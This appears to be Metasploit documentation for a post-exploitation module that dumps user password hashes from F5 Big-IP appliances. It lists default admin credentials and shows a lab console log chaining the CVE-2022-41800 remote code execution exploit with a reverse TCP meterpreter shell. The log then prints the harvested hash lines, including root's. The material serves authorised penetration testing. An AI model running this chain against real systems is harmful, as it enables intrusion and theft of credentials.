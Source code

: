 ## Vulnerable Application

The application is F5 Big-IP, and I don't think the versions matters but I
tested on version 17.0.0.1. It can be downloaded as a VMWare image for free
(you have to create an account) from https://downloads.f5.com. You can register
for a free 30-day trial if you like, but it's not required to test this.

Boot the VM and set an admin password by logging in with the default credentials
(admin / admin). You'll need that password.

## Verification Steps

1. Install the application
2. Start `msfconsole`
3. Do: Get any session somehow (`exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800` works well on 17.0.0.1 and earlier, or just use `msfvenom`)
4. Do: `use post/linux/gather/f5_enum_users`
5. Do `set SESSION <sessionid>`
6. Do: `run`
7. You should get the info

## Options

n/a

## Scenarios

### F5 Big-IP 17.0.0.1 with a root session

First, get a non-root session however you can. I used the rpmspec vuln:

```
msf6 > use exploit/linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set HttpPassword mybigtestpassword
HttpPassword => iagotestbigip
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set RHOST 10.0.0.162
RHOST => 10.0.0.162
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > set LHOST 10.0.0.179
LHOST => 10.0.0.179
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > exploit
[*] Started reverse TCP handler on 10.0.0.179:4444 
[*] Sending stage (40168 bytes) to 10.0.0.162
[+] Deleted /var/config/rest/node/tmp/708677fa-5b30-43e6-9ce3-d84046e9f6e9.spec
[+] Deleted /var/config/rest/node/tmp/RPMS/noarch/yE15kZeAwp-1.6.1-7.4.4.noarch.rpm
[*] Meterpreter session 1 opened (10.0.0.179:4444 -> 10.0.0.162:36124) at 2022-11-14 16:12:04 -0800

meterpreter > bg
```

Then just use the module, set the SESSION, and run it:

```
msf6 exploit(linux/http/f5_icontrol_rpmspec_rce_cve_2022_41800) > use post/linux/gather/f5_enum_users
msf6 post(linux/gather/f5_enum_users) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/f5_enum_users) > exploit

[+] admin / $6$Iyzm/x1c$gvlmWSdmj7M/NBUM9DO41LHmC1qDBxM/IMjlUfqLZatVVXHPUvo9/hFDrP1Qg3qHIC0g.O9/dq4TPgDdE3W1z.
[+] f5hubblelcdadmin / qsVgr34GRROUnQhTSvL2h1Q6NtLE9hpp
[+] rontest / $6$vVUv0eWT$RGvezgWWLpEa5WfKNumg7b04w2cz87r8TAZ0mxiAvYveDmTRu3h3KUwirAhiFOZ6LcttWxO2XS0MNAhkqaSN11
[+] root / $6$hWKQCz3U$QE39QIT8ILbdah.k85LMnvKqjq3IIPge3bfM9UAiaUy.leyzHwpjYqQ7jJxSwN1PiFjKB28ofVi6rvenaxh9l/
[+] msftest / $6$lb5UKQa8$.v/xIGpI7pvP9NCQttoDG3DUFuayJIJqs/pWrDZwhVtxygzjyiyH/J4TejPEOb/6uJXzmyUd22KiwSoTbE.qP1
[+] msftest10 / $6$SsTj4F5Q$ct0NRCUNGrAkIF7z/XSsUhF5DY1FwDgvGMxh6w09/Zm1jpu0Sj1v8LXRbEtuHlUrtaGMNGcRuU9EZYNjThEar0
[*] Post module execution completed
```
